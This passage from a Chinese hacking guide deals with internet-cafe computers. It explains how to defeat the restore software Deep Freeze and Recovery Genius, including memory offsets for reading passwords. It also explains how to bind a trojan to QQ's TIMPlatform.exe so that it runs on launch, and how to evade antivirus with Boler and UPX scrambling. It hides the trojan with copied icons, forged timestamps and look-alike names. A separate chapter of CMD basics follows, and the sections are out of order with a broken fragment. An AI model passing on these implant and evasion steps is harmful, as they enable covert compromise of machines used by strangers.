冰点是国外一款操作简单的免费还原软件……其目录下的 `DFserv.exe`、`Frzstate.exe` 等文件，以及系统盘根目录下的 `Persi0.sys` 文件。

你在这个图标上点击鼠标左键和右键冰点都不会有反应，激活它的方法是按住 **SHIFT 键** 并在冰点的托盘图标处双击左键，或用 `Ctrl+Alt+Shift+F6` 快捷键……


大家看到我圈住的地方是冰点的版本号……当密码正确的时候，就可以进入冰点的设置了，如图 4-3-3。


大家看到冰点的设置也是相当简洁，只有两个选项卡。在“Boot Control”中有 `Boot Frozen`、`Boot Thawed on next n restarts`、`Boot Thawed` 等选项……


### b. 冰点破解

冰点在安装完成后的默认密码为空，如果管理员一直保持空密码，冰点将在每次系统启动时显示如图 4-3-5 的提示。

除非管理员懒得要死，否则密码不可能为空。其实我们只要进入那个还原的设置就可以了，通过密码只是一种手段。冰点的前几个版本存在缺陷，用户可以使用工具绕过密码直接对它的还原状态进行设置，网上公布的漏洞版本如下：

```
Windows 9X:
3.32.000.0534, 5.10.051.1089, 5.20.250.1125, 5.30.150.1181, 5.40.051.1248, 5.50.051.1288, 5.50.051.1299, 5.50.051.1302, 5.50.150.1302, 5.60.051.1347, 5.60.150.1347, 5.70.051.1372, 5.70.250.1372

Windows 2K/XP:
4.20.020.0598, 4.20.021.0613, 4.20.120.0604, 4.20.121.0613, 5.10.021.1089, 5.20.220.1125, 5.30.120.1181, 5.40.021.1248, 5.50.021.1288, 5.50.021.1299, 5.50.021.1302, 5.50.120.1302, 5.60.021.1347, 5.60.120.1347, 5.70.021.1372, 5.70.220.1372
```

你可以通过查看你所在网吧冰点版本号了解漏洞是否可以利用。这里我们直接利用工具 DeepUnfreezer。上面的部分和冰点的“Boot Control”选项卡是何等相似啊！在这个工具的 Log 中，我们看到的提示是 Deep Freeze detected!，说明当前冰点的版本存在这个漏洞！这个工具就是绕过密码直接对冰点的还原进行设置。随后设置重启次数并保存状态，提示 OK 即表示破解成功。

大家看到我们没有用密码就改了冰点的设置。设置重启后还原是为了演示效果。完成后先重启，再进行文件修改或注册表改动，随后再次重启即可观察是否回到还原状态。文中随后还提到在内存中查找密码（如通过 WinHex 打开 RAM），并给出若干地址示例来说明密码位置可能变化。


#### 4.3.2 还原精灵的破解

### a. 还原精灵简介

还原精灵是远志集团出品的还原软件。经历多次对抗后，其功能增强的同时也加强了安全性。文中测试版本为还原精灵 6.1，并介绍其分区保护方式、默认密码、CMOS 保护和还原模式（不还原/自动还原/定时还原）等特性。


默认安装路径是 `C:\Program Files\GoldenSoft\Recovery Genius\WinNT`，主程序名称为 **HDDGMon.exe**，其图标为一个盾牌上面有一只小鸟，执行后同样会出现在托盘中，而且它在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下添加了自启动项。


## P、还原精灵破解

关于还原精灵的破解有很多方法，针对前面几个版本都已经有了密码读取工具。这里针对 6.1 我还没有看到过密码读取工具，不过还原精灵的日子仍然不好过，因为它又遇到了新的克星，如图 4-3-11。


这个工具和前面破解冰点的工具有异曲同工之妙，这个密码破解器不需要密码验证直接修改密码。选择其中的“破解方式”，点击“确认”，这时候还原精灵核对密码的对话框会弹出来要求输入密码，如图 4-3-12。

这时候不用输入密码，直接点“确定”就可以进入还原精灵设置了。点击“所有保护分区”中你要更改设置的分区（如 C 盘），然后在下面“还原方式”选择“不还原”，如图 4-3-13。然后点击“应用”并关闭还原精灵，重启系统即可。

用这个工具破解还原精灵 6.1 十分方便，但也有致命缺点：无法恢复管理员设置的密码。也许管理员发现也无法进入还原精灵设置的日子，就是你的小马逝去的日子。


在前几个版本时，我就在还原精灵内存中的固定地址里找到过密码，和 Pubwin 的密码破解原理类似。我用同样方法在还原精灵 6.1 的内存中寻找密码，记录了一些保存密码的偏移地址。

`00BAFDE0  00BAFDE0  00BAFE30  00BAFE80  00BAFC50  00BAFFB0`

找密码时可用 WinHex 打开内存，选择 **HDDGMon.exe** 的“整个内存”，在“位置”菜单选择“转到偏移量”，输入上面的地址并点击“确定”，如图 4-3-14。


很可能在你转到的偏移量对应的 WinHex 右侧文本框中就能看到类似密码的字符串，如图 4-3-15。根据密码出现区域周围的字符串也可定位密码。笔者常用关键字有“还原精灵”“Alt+F4”等，在“搜索->查找文本”中输入这些关键字，如图 4-3-16。


点击“确定”，一般在第一处找到的关键字附近就可以找到密码了，如图 4-3-17。

破解方法就是这样了，希望对大家有所启发并能举一反三。查看内存的方法在破解中虽然基础，但也是很重要的方法，大家一定要掌握！


### 4.3.3、还原卡破解相关

还原卡感觉就像硬件防火墙那样是专业搞还原的，因此破解起来难度更大，至少手工破解起来是相当困难的。手工破解需要在纯 DOS 下操作，在网吧这个地方获得纯 DOS 是比较困难的，而且在纯 DOS 下操作也是非常危险的。我想网管不会看着一个家伙对着黑乎乎的显示器操作而置之不理的，被发现的话就很不爽。其实破解还原卡同样有大量的软件，只不过效果不如破解还原软件。

现在大部分的还原卡破解软件都是直接卸载还原卡的，这样暴露的破解有时候真的很无奈，也许它们大部分是用来提供给合法用户解决忘记密码的问题吧！破解的结果当然最好获得还原卡的密码了，曾经有一款经典的还原卡密码破解器，但是它只支持在 Win9x 下运行，这不得不说是一个遗憾！以前我们想快点进入 XP 时代，现在却又怀旧了。不过还好，后来（不知道什么时候）软件作者终于推出了针对 NT 系统的还原卡密码读取工具，如图 4-3-18。

点击那个“读取小哨兵/华苏密码”就可以读取还原卡的密码了，并且它不仅仅能读这两家还原卡的密码，笔者至少用它读过金盾的，还有一个品牌的忘记是什么了，但它也不是万能的，有的密码读出来可能是乱码。总之这个工具还是很有用的，推荐给大家使用。另外在光盘中笔者收录了大量的还原卡破解软件，它们有的是破解爱好者的作品，有的是厂家提供给用户使用的，针对密码读取的不是很多，大部分是卸载的。在这里我要提醒大家：最好想办法搞密码，没有太大必要的话最好不要卸载还原卡，造成一些故障被管理员发现会很不爽的（偶有亲身体会呀！）。除了还原卡的外，在光盘中还收录了很多还原精灵及其它还原软件的破解程序，这些工具的使用都由大家自己来完成了。

### 4.3.4、捆绑法绕过网吧还原系统

最初想到这个方法的时候是因为有的网吧为给客户保留自己文件的空间而没有还原某个驱动器。我就在想如何利用这没有还原的盘呢？我在这个没有还原的盘中发现了 Tencent 目录，也就是说 QQ 安装在这个驱动器中。心中一阵小喜：要知道 QQ 可是网吧点击率最高的软件了，要是他们能像点击 QQ 那样运行我的木马那该多爽。做梦都是满天肉鸡飞。空想过后，我自然想到了文件捆绑，但是网吧的系统盘是肯定要还原的，桌面属于系统盘，直接捆绑快捷方式当然不行了。快捷方式执行的是不还原盘中的 QQ，那是否捆绑 QQ.exe 后，执行它的快捷方式就可以执行我的木马呢？想法很好，马上试验并马上报告失败。郁闷，也许是捆绑的文件必须是在后台执行的，不能有 GUI 界面的原因吧！我把捆绑后的文件也命名为 QQ.exe 并覆盖原文件，可是执行后却只执行了木马，QQ 并没有运行，这不是一下子就暴露了么？

于是马上转换思路，既然捆绑 QQ.exe 不行，那就捆绑和 QQ 有关联的应用程序。要说起这样的程序 QQ 还真不少。最好用的就是 TIMPlatform.exe 了，那时候正流行挂 QQ 呢。为了防止用户在一台机子上登录同一个 QQ 号，腾讯在 QQ 安装目录中的 TIMPlatform.exe 文件中加入了检测功能，那时候我就开始注意它了，并相继发现很多软件在启动的时候会加载另外一个程序。比如这里执行了 QQ.exe 就执行了 TIMPlatform.exe，于是我们就可以把木马程序和这个文件捆绑在一起并命名为 TIMPlatform.exe 覆盖原文件。试验后是成功的！这样用户在桌面启动了 QQ 的快捷方式后，就启动了不还原盘中的 QQ.exe，然后 QQ.exe 再启动 TIMPlatform.exe，我们的木马也就执行咯！

有的朋友说那直接把木马程序改名为那个文件不就成了，干嘛非要捆绑呢，很麻烦的。其实原因是在这里不行，QQ 没有 TIMPlatform.exe 的支持是不会执行的。当然如果你用其他程序可以尝试直接去替换文件，但我还是推荐捆绑后再覆盖原文件，这样主程序的运行也不容易出问题。除了 QQ 的那个程序外，还有几个在 QQ 已经成功登录后会自动执行的程序，一个是腾讯网迷你主页的程序 QQExternal.exe，这个是肯定要出现的；QQ 的自动升级程序是 QQLiveUpdate.exe，它也可以利用。如果用户有 QQ 宠物的话，QQPct.exe 也是有机会自动运行的哦，它们的捆绑是否成功笔者没有尝试，留给大家做了。

我们越有利，不过那时候也许就没有人用 Windows 了吧，哈哈哈！~

## 4.4、木马的免杀

你是否在网吧中经常遇到自己下载的黑客程序被杀的问题，是否对杀毒软件感到无奈和绝望呢？本小结将终结这一切！呵呵，说大话了，除了想办法把杀毒软件等安全产品干掉外，免杀似乎成了木马生存的必要条件。说到免杀其实又涉及到了软件破解领域，我们先来看看当前杀毒软件的查毒原理吧！

杀毒软件有病毒库大家都知道吧，一个新病毒产生后杀毒软件厂商会提取病毒的样本，并从中提取出一段代码作为这个病毒的特征码，也就是说这段特征码就代表了这个病毒。杀毒软件就是通过特征码来定位一个文件是否是病毒的，如果你把一个病毒特征码写入一个文本文件的话，相信杀毒软件会报警的！

明白了原理，下面来说对策，就是修改特征码嘛！呵呵，修改特征码需要汇编语言的相关知识，手工实现起来比较复杂和繁琐，不适合我们在网吧这样的环境中运用。这里给大家带来的是超级傻瓜的特征码修改程序 Boler。

### 4.4.1、伯乐相马

Boler 即伯乐，首先称赞一下名字起得不错！它的使用的确可以称得上傻瓜，十分简单，非常容易上手。我们用超级命令行工具 mt.exe 作为试验品来演示如何做免杀。

首先在“伯乐相马”选项卡中选择要免杀的文件和免杀后的文件输出的目录，如图 4-4-1 是我的范例，其中生成的样本数量默认就可以了，然后点击“生成样本”生成免杀文件。


这时使用杀毒软件查杀生成免杀文件的输出目录，我用卡巴斯基扫描病毒竟然只发现了 13 个病毒文件，不要客气，把查到有病毒的文件全部干掉！然后转到“悍马攻城”选项卡，这里列出了所有生存下来的小马名单，选择填充一个并再次生成样本，这次就生成了更多的病毒文件，再次查杀，这次杀掉了更多的小马，也保留下了更多。

等待杀毒软件漫长的杀毒完成以后，我们就可以检验哪些程序可用了。来到 E:\TEST 目录，这其中的所有 `.exe` 文件就是免杀的了，只不过其中的大部分程序都是不可用的，有的系统提示你不是有效的 32 位应用程序，有的提示应用程序错误……


Boler 想得很周到，它在生成这个文件的时候同时生成了一个 `.bat` 文件，执行这个文件就会自动检查哪些程序不可用了，并把返回执行错误的文件自动删除。出现如图 4-4-3 的程序就是不可用的。

另外，由于这里我免杀的是一个命令行下的程序，因此在命令行下也会有错误提示，只出现“Return:0”的程序也不可以使用，这个我们不用手工删除，那个 `.bat` 文件会帮我们做的。

在检查的过程中，会不断出现类似图 4-4-3 的提示，一直点“确定”就可以了，直到检查完所有的文件。一下一下点鼠标当然痛苦了，激活那个检查的 CMD 窗口按住回车不放一直等结束就可以了。

其实也不一定要检查完所有的文件，当你发现有可用文件的时候就可以停止检查了。应用程序错误的消息框会暂时中止检查，这时回头看 CMD 窗口即可，如图 4-4-4。


我们看到了 MT 的帮助信息，说明有一个文件是可用的！我们就要这个文件了，由于 Boler 的文件检查是有一定顺序的（按十六进制），因此根据下面的无效文件的文件名我们就可以找到这个可用的文件了：下一个文件名为 `000002F9_.exe`，那我们的可用文件的名称就是 `000002F8_.exe` 了！事实的确如此，如图 4-4-5。免杀的可用 MT 找到了，关闭那个 CMD 窗口就可以去干坏事了！……另外如果你想你的程序躲过更多的杀毒软件，可以用多种杀毒软件对生成的样本进行病毒扫描，然后挑选出其可用的。


### 4.4.2、秘密行动

除了现在流行的特征码修改通过杀毒软件的查杀外，我们还不要忘了最原始的程序加密方式。加壳是一个形象化的概念，它其实就是覆盖在被保护的文件上的一个程序段，最初用来保护程序不被逆向工程，现在的壳加入了更多功能，比如 Anti 等。……这里我说的是另外一个东西。秘密行动是国外的工具，它把几个比较实用的小程序结合在了一起，使用起来非常方便。


这里我用的是火狐汉化版本，我们只使用其中的几个功能：增加文件字节、压缩和打乱 UPX 文件头。首先来到“Add Bytes”中，选择要免杀的文件……然后点击“Add Bytes”按钮，很快字节就添加好了。这个时候文件比以前大了大约 0.9K，不要担心，下面我们把文件压缩了，点击“Pack/Scramble”，先点“Pack”给 MT 披上 UPX 的外衣，这个过程是在命令行下进行的。


点击那个“Scramble”，然后看到一阵进度条疯狂闪过，就万事 OK 了。……秘密行动除了上述几个功能外，还有十六进制数据编辑、修改特征码、文件捆绑等功能，这些留给大家自己去玩。秘密行动同样对体积比较大的应用程序“感冒”，加载大的文件它经常工作不稳定或出错，另外秘密行动只可以对 `.exe` 文件操作。

## 4.5、木马的伪装和隐藏技巧

要想我们的木马在网吧的机子生存尽量长的时间，花心思去伪装木马文件是必要的。首先我们要把文件放到一个比较深的目录……其次木马程序的文件名一定要非常仿真，常用的手段是用数字 0 伪装为英文大写字母 O，用数字 1 伪装英文小写字母 l。……再高级些的就要算图标修改和文件创建时间的修改了。

### 4.5.1、文件图标的修改

除了修改文件名外，修改文件的图标也是很重要的。一个命令行程序的图标一般用户都不会认为它很友好，一般木马生成的服务端都是最初的 `.exe` 文件的图标……那就没有办法修改服务端的图标了吗？非也，这里我另辟蹊径，教给大家一个效果好的简单的图标修改方法，跟上哦！

首先我要用专业的图标制作工具获得一个图标，这个工具是 IconLover，是老外写的东西，一路安装完后，运行（由于它是共享软件需要注册，我们就试用一下，在注册的对话框中点 OK 就可以了，其他所弹出来的选项卡全都关掉）后界面如图 4-5-1。


点击“File”菜单并选择“Open...” （或者用 Ctrl+O 快捷键），将选择一个被提取图标的对象。IconLover 支持 N 多图标提取的文件类型，除了图片文件外，还可以提取 EXE、DLL、RAR、ZIP 等等，这里我要将图标修改为千千静听的程序图标，因此选择 TTPlayer，如图 4-5-2。


这时候 IconLover 的主窗口中就会显示出 TTPlayer.exe 中所有的图标资源了，如图 4-5-3。我们就选择第一个图标，当然你也可以选择其他的了。在第一个图标上点击鼠标右键，选择“Save Icon as...”，保存为一个 `.ico` 文件，这里我保存的是 `d:\ttplayer.ico`。ICO 就是图标文件类型，图标我们提取好了，IconLover 提取的图标效果是非常好的，和原图标没有半点差异。这时候就需要给木马的服务端程序修改图标了，这里服务端程序为 `server.exe`。


在前面文件捆绑部分我们介绍了灰鸽子的万能文件捆绑器，大家也许发现了它有图标修改的功能，并且自带了一些 Windows 中的图标。但是这些图标都是比较旧的 Windows 版本中的图标，虽然效果不错，但是在越来越华丽的 GUI 下还是很容易被察觉，这就更要求我们得自定义适合自己环境的图标了。好在万能文件捆绑器提供了这个功能。点击“增加文件”选择服务端文件 `server.exe`，因为我们不捆绑文件，因此直接点击“选择图标”，选择刚才保存的 `TTPlayer.ico`，然后捆绑文件就可以了，这里我另存为 `server2.exe`。图 4-5-4 是修改图标后的服务端文件与千千静听的图标的对比，如何，一个模子刻出来的吧！

### 4.5.2、修改文件时间

查杀病毒的一个重要方法就是查看文件的创建时间，通过和系统文件等旧文件的时间对比可以缩小查找病毒的范围。所以修改木马的创建时间也是十分重要的隐藏方法。其实修改创建时间是十分简单的，步骤是：修改系统时间——创造木马服务端文件，这时生成服务端文件的创建时间自然就是修改后的系统时间了，哈哈没有想到吧！但是这样无法或者说很困难将服务端创建时间精确到一个时刻，因为操作系统在安装的时候所有系统文件的创建时间都是一致的，如图 4-5-5。


我们要将木马的创建时间精确到和系统文件一样的时间，需要借助一个工具 `setime.exe`，它的使用十分简单，如图 4-5-6。

其中后面的一个数字串分为六部分：年、月、日、小时、分钟和秒。从图 4-5-5 时我们知道了系统文件的创建日期为 2004 年 8 月 8 日，4:00:00，因此命令为 `setime server2.exe 20040808040000`，修改成功后会提示 `The Specifi Time: 2004-8-8 4:0:0`，这时候查看 `Server.exe` 的属性，如图 4-5-7。

把服务端文件往 `system32` 文件夹一放，再搞个高仿的文件名和图标，要查找起来真如大海捞针。

### 4.5.3、其它方法

现在越来越多的新技术被应用到木马中，光木马隐藏方面就有隐藏硬盘文件、隐藏进程、隐藏服务、无端口、进程插入等，这些功能往往在生成服务端的时候有设置，比如插入到哪个进程，是否隐藏进程、服务等，而这方面独立的第三方工具也是有的。最初使用这些技术最多的就要算 RootKit 了，隐藏文件、进程等的技术是用一种叫做钩子（Hook）的东西实现的，这涉及到了编程，我们不再继续讨论，只做简单介绍，有兴趣的朋友可以翻阅一下相关资料。


图 4-5-7 修改文件的创建时间

### 第三章 命令行下的精彩

## Intro

## 第一节 课程规划

- 1. 内部命令 VER、CLS、DIR 等的使用
- 2. 几个简单的文件和目录操作命令的使用
- 3. 使用 CMD 的帮助系统
- 4. 命令提示符的一些细节知识
- 5. 命令行下的复制与粘贴
- 6. 获得本地主机信息的几个命令的用法
- 7. 注册表编辑器命令行下导入/导出注册表脚本的方法
- 8. 利用 Reg 命令对注册表键值进行查看/添加/复制/对比/删除以及注册表脚本的导入/导出
- 9. 利用 Start 命令突破网吧限制
- 10. 利用 Subst 命令突破网吧对硬盘的访问限制
- 11. 利用 Taskkill 命令结束进程
- 12. 利用 Shutdown 命令进行关机、注销等操作
- 13. 利用 Edit 编辑文件
- 14. 利用 Ping 命令获得远程主机的操作系统类型
- 15. Ping 命令的高级用法
- 16. 利用 Nbtstat 命令获得远程主机的名称及工作组名
- 17. 利用 Tracert 命令搞清网络拓扑
- 18. 利用 Netsh 命令查看网络配置
- 19. 利用 Netsh 命令修改网络配置
- 20. Tasklist、REG 等命令的网络应用
- 21. 批处理的语法及格式
- 22. 批处理简单命令 Echo、Goto、Call 等的用法
- 23. Echo 命令的高级用法
- 24. 重定向操作符的概念与使用
- 25. 批处理中其他特殊符号的用法
- 26. 批处理参数的使用
- 27. If 命令的详细讲解
- 28. For 命令的详细讲解
- 29. Set 命令的用法与环境变量的概念
- 30. 可以直接执行的程序与环境变量的关系
- 31. 环境变量的失效与延迟
- 32. 筛选器 Find、More 和 Sort 命令的使用
- 33. 周边批处理命令 Color、Title、Prompt、Pushd、Popd 等命令的使用
- 34. 堆栈的概念
- 35. 批处理编写实例
- 36. 批处理编写中的注意事项


DOS（Disk Operating System）即磁盘操作系统，而 MS-DOS 是微软在 Windows 系列前开发的一款曾经风靡一时的操作系统。它给用户最直观的印象就是一个黑乎乎的命令行，有命令提示符和闪动的光标，用户通过输入不同的命令来实现各种操作和运行程序。差不多活跃在 21 世纪计算机领域的人都没有接触过它吧！（好怀念小时候背着 CD 空格、a\、回车的日子）。1994 年 Windows 3.2 发布，它友好的界面和简单的操作马上使无数计算机用户倾倒，越来越多的人开始使用 Windows，于是 DOS 逐渐退出了历史舞台，被人们遗忘……而微软在其后发布的 Windows 操作系统中都内嵌了一个模拟 DOS 程序，从 Win9x 的 command 到 WinNT 的 cmd，而且命令在逐渐增强。既然我们有友好的 GUI（Graphical User Interface，图形用户界面）了，还要命令行做什么呢？这正说明了命令行不可替代的地位。

首先，命令行程序执行速度快。由于 GUI 程序运行时需要加载容器（即程序外壳、窗口、边框、皮肤等），而命令行程序的运行则不存在这些步骤；其次，命令行下可以批量执行任务。命令可以用表达式表示出来，但是鼠标的点击、拖拽要怎么表示呢？用户往往要完成一系列任务，很多是重复的。在 GUI 下我们只能一遍一遍地重复相同的动作，而使用预先写好的命令集，只需要双击你的鼠标，烦琐的事情就变简单了。微软提供这个模拟 DOS 的另外一个原因是提供给喜欢在命令行下使用计算机的用户使用。

在安全领域，命令行更是占有举足轻重的位置，不论是缓冲区溢出漏洞还是 telnet 的远程登录，还有相当部分的黑客工具是运行在命令行下的。

对于本节的内容，更为重要的是它提供了相对于图形界面的另外一种接口。本章内容的设计主要站在 Windows NT 下的命令行解释器 CMD 的基本使用角度上，讲解如何突破网吧的种种限制，如何利用批处理编制自己的黑客程序和简化操作，同时为后面章节中可能涉及到的 cmd 的使用打下基础，让读者熟练掌握命令行下的种种操作。本章测试的系统环境为 Microsoft Windows XP Professional SP2。

## 1、命令行初步

### 1.1、认识命令提示符

通常我们听说一个 cmd shell，其中的 cmd 就是 Windows XP 中的命令提示符了，如图 1-1-1 是它的界面。一般的打开方式为“开始”——“程序”——“附件”——“命令提示符”，如图 1-1-2。还可以这样打开：“开始”——“运行”，在文本框里输入 cmd，点确定就进入 cmd 模式了。Windows 中定义了许多可以直接在“运行”中启动的程序，这些程序的列表是在注册表中设置的，cmd 就是其中之一，它指向的是 `c:\windows\system32\cmd.exe`，当然你也可以直接去 system32 中运行它。


从图 1-1-1 中我们可以看到 `C:\Documents and Settings\new>`，这个是命令提示符，你可以使用 prompt 命令修改提示符，如图 1-1-3。提示符指出了 CMD 所在的当前路径为 `C:\Documents and Settings\new`，即使用 prompt 命令改了提示符，当前路径还是原路径，如图 1-1-4。


至于 echo 命令和环境变量的概念，后面会有讲到，这里你只要知道刚才的命令可以查看当前路径就可以了。命令提示符后面紧跟一个闪动的光标，提示你输入命令。基于 NT 系统，cmd 在 Win9x 的基础上同样强化了网络功能，其他的一些新功能在 WinXP 中也有命令行的工具版本，在 XP 的命令行环境下几乎可以进行任何系统允许的操作。虽然 Windows 是视窗操作系统，但它的命令行操作接口仍如此发达，足可证明它不可替代的地位。

CMD 命令可以分为内部命令和外部命令，但是现在有无这个分类感觉都无大碍。笔者认为的内部命令就是不以文件形式存在的，而是嵌入 CMD 中的命令，比如 dir、ver 等；而外部命令就正好相反，像我们经常用到的 ping、net 等命令其实都是一个命令行文件的形式存在的，它们都在系统目录的 system32 目录下。

### 1.2、CMD 基础命令

在命令行下进行各种操作，要求我们必须掌握一些最基本命令，笔者总结的有：

- **内部命令**：显示 Windows 版本命令 VER；清屏命令 CLS；列目录（文件）命令 DIR；重命名文件（目录）命令 REN；退出命令 EXIT。
- **目录操作命令**：更换盘符（C 盘、D 盘等）；新建目录命令 MD；进入目录命令 CD；删除目录命令 RD。
- **文件操作命令**：显示文本文件内容命令 TYPE；文件复制命令 COPY；文件移动命令 MOVE；文件删除命令 DEL。

这些都是在日常的操作中经常用到的命令，它们是不区分大小写的。接下来我将逐一讲解它们的基本用法。

### 1.2.1、几个内部命令的使用

- **a、显示系统版本命令 ver**

VER 是 VERsion 的缩写，意思是版本。这个命令只有标题的那一个功能，即显示操作系统版本，没有任何可选项，直接输入回车即可，如图 1-2-1。


- **b、清屏命令 cls**

CLS 是 Clean Screen 的缩写，作用是清除 CMD 中当前屏幕上的输入与输出信息，并将命令提示符返回到窗口顶部。该命令使用简单，但清除后的内容通常无法恢复。

- **c、列目录（文件）命令 dir**

DIR 是 Directory 的缩写，用于显示目录或文件信息。在 Windows XP 中，`dir` 命令功能较强，可按条件显示文件和目录。直接输入 `dir` 可列出当前目录中的所有目录和文件（含隐藏属性）。


另外，`dir` 的常见用法是带路径参数，例如 `dir c:\windows`，用于查看指定目录下的文件与文件夹。


在任意目录下可使用 `dir` 查看其他目录内容，也可用于检查某个文件是否存在，例如 `dir c:\windows\notepad.exe`。将目录路径改为文件路径即可；文件名通常要带后缀。


从示例可以看出，`dir` 会列出文件的创建日期、类型属性和大小；配合其他选项可显示更多信息。

- **d、重命名命令 ren**

`ren` 可重命名文件或文件夹，基本格式为：`ren 源文件(目录)路径 目标文件(目录)名`。例如将 `e:\for\test.txt` 重命名为 `fornever.txt`：`ren e:\for\test.txt fornever.txt`。

- **e、退出命令 exit**

输入 `exit` 可退出当前命令提示符环境。在一个 CMD 窗口中可多层进入命令提示符环境，使用 `exit` 可逐级退出。

### 1.2.2、目录操作命令

目录操作是常用内容，这些命令相对简单，下面逐一说明。

- **a、新建目录命令 md**

MD 是 Make Directory 的缩写，命令格式为 `md 目录名`，可用于在当前或指定路径下新建文件夹。


md 也有一个同样功能的命令 mkdir。

- **b、转换驱动器和目录命令**

从一个驱动器转换到另一个驱动器很简单，比如我要转换到 E 盘下，直接输入 `e:` 就可以了。进入目录的命令是 cd，其命令格式为 **cd 目录的全路径**，如果不带路径则默认进入当前文件夹中的某个目录。

需要注意的是，cd 命令只能进入当前驱动器下的某个目录，如果要进入到其它驱动器中的某个目录，必须先转换驱动器，如图 1-2-7。


从图中大家也可以看到，在驱动器 C 下直接使用 cd 命令是无效的，而当转换到驱动器 E 下后，目录直接指向了刚才 cd 的目录。一般直接转换驱动器都会转换到驱动器的根目录。

大家在使用 dir 命令时有没有发现首先出现的两个目录是 `.` 和 `..`。其中 `.` 代表当前目录，`..` 代表上一级目录，所以 `cd..` 就是转到上一级目录；根目录用 `\` 表示，想直接回到根目录就用 `cd\`，如图 1-2-9。


除了使用 `.` 表示当前目录外，我们还可以使用环境变量 `%cd%` 表示当前目录。当然这是后话了！和 CD 命令具有同样功能和用法的命令是 chdir。

- **c、删除目录命令 rd**

r 的意思是 remove，直译删除。rd 命令和前几个命令类似，格式为 `rd 目录路径`。如果要删除的目录不存在，系统会提示找不到；如果目录中包含文件，系统也会提示目录非空。若要连同目录中的所有文件一起删除，可使用 `/S` 可选项，即 `rd 目录名 /S`。


可选项是命令行程序中非常重要的概念。命令通过可选项接受用户输入，完成指定功能或限制输出，使程序更灵活强大。

### 1.2.3、文件操作命令

- **a、显示文件内容命令 TYPE**

TYPE 命令用于显示文本文件内容，格式为 `type 文件的全路径`。图 1-2-11 示例显示了当前目录下 fox.txt 的内容。


这里示例只写了三行，因为 txt 是文本格式。type 也可显示其它类型文件，但以文本形式显示时一般是乱码。

- **b、文件复制命令 copy**

WinXP 中的 copy 命令也很强大。基本格式为 `copy 源文件路径 目标文件路径`。copy 可以复制任意目录下的文件；若目标为文件夹则保存到该文件夹中。


由于当前目录 E:\for 下存在目录 fox，所以把 fox.txt 复制到了 fox 文件夹中。若目标目录不存在，则可能复制为一个无后缀文件。copy 也可用于重命名和修改文件类型（内容不变）。XCOPY 是 copy 命令的增强。

xcopy 命令可以将一个目录复制到另一个位置，包括这个目录中的所有内容。如图 1-2-14 是我复制当前目录的 fox 文件夹为 for 目录，所以 fox 目录中的内容和 for 中的内容是一样的。xcopy 也可以把一个文件夹复制成一个没有类型的文件，但是只能保留原文件夹中的一个文件，我想在某些场合这可以作为一个隐藏文件的方法，大家自己去挖掘吧！


- **c、移动命令 move**

如果说 copy 命令是复制的话，那 move 命令就是我们日常使用的右键菜单中的剪切了。move 的用法与 copy 用法基本相同，不同之处在于 move 是把文件整体移动过去而不是复制。move 命令不仅可以移动文件，也可以移动一个包含了文件的目录，如图 1-2-15。


- **d、文件删除命令 del**

DEL 是 DELete 的缩写，即删除。键盘上也有这个键。在命令后面输入要删除的文件名就可以执行删除了，注意这个删除是彻底删除，删除了的文件是不会保存到回收站的。del 命令支持同时删除多个文件，文件之间用一个空格分隔即可。通常在删除动作中，为了防止被删除文件有保护措施，或不想文档删除时被提示，我们可以加上 `/f` 和 `/q` 可选项，它们分别表示强制删除文件和以安静模式删除。


### 1.3、使用 cmd 的帮助

一个系统是否完善，其帮助文档是否健全也是判定的重要因素之一。学会使用 CMD 的帮助系统对于学习命令行非常重要。对于 WinXP 自带的命令，系统提供了一个强大的 CHM 文件，它的名字是 ntcmds.chm。点击“开始”菜单→“帮助和支持”，点击其中的“使用工具查看您的计算机信息并分析问题”，如图 1-3-1。


在“工具”窗口中点击“命令行参考 A-Z”，可以看到所有 CMD 命令按字母顺序排列，点击其中一个就进入该命令的详细帮助文档。这个地方是学习 CMD 的好去处。虽然不是所有命令程序都有那么强大而详细的中文帮助信息，但通常我们查看一个命令行程序的帮助文档，在 CMD 下就可以完成，调用方法通常有 `/?`、`/h`、`-?`、`-h`，这要看命令程序自身设定以及引导参数的方法。


对于 Windows 自带的命令来说，它们统一使用 `/?` 为显示帮助文档的方法。比如查看 xcopy 命令的功能以及用法，可以在 cmd 下输入 `xcopy /?`。除了使用 `/?` 外，有些命令还可以使用 help 命令查看帮助文档；例如输入 help 后可看到部分系统命令的描述，再输入 `help xcopy` 可查看对应帮助信息。图 1-3-2 中可看到对 xcopy 命令的描述及其用法，其中大量中括号括住的部分是可选项。使用时应严格遵循可选项描述中的格式要求扩展，但为了避免错误，我们最好还是按照可选项的描述书写命令。

有些命令需要用户在可选项后面添加一些字符串以完成一定的功能，一般在帮助文档中可选项支持的对象它都会列出来。刚开始看 CMD 的帮助命令时确实很困难，微软的 CMD 帮助虽说比较全面，但是描述太过专业和晦涩，初学者理解起来很不容易。笔者的建议是多看帮助文件，重点是在理解，然后根据自己的理解尝试，一定要多尝试，因为可能存在多种可能。这样通过反复尝试并自己总结命令的用法，再回过头看帮助，你就会理解其中的一部分了。如此循环，你总会有茅塞顿开的感觉，我相信这就是成功的感觉！如果你完整地掌握了一个命令的用法，再回头去看它的帮助命令，就会马上理解它描述的意思了，这样再学习其它命令就简单了。学得越多，路就越宽广，眼前就更加光明。呵呵，心血来潮啰嗦了几句，个人认为 CMD 的帮助文档是自学的好去处，这里真的可以学到很多，我不可能把所有的东西都写到这里，大家自己去尝试吧！

### 1.4、其它

- **1.4.1、Windows 对于含有空格的目录或文件的处理**

在命令提示符和 Windows 的标准批处理对话框下，使用反斜线“\”作为目录（文件）分级符。这里需要注意的是，有的目录或文件名中间带有空格的情况，这时候指定的一个路径如果包含有这样的目录或文件，Windows 会首先检查是否存在空格前面的目录，如果不存在才会认为空格前后两部分是一个目录或文件。在一些版本较低的系统中则不会做这项检查，而只把空格前面的部分当成一个目录，这时候就需要用引号将目录名或文件名引起来，这样命令行才能识别，比如最常见的 Program Files 目录。我的测试系统是 Windows XP Professional SP2，属于第一种情况。

在 CMD 中，你是否觉得一次一次输入命令很麻烦呢，尤其是输入重复的命令时会不会觉得效率很低呢？其实使用上箭头（↑）就可以重现上次输入的内容，只要是回车确认了的，这样对于十分长的命令就可以很简单地重复输入了。

- **1.4.2、Windows 的通配符**

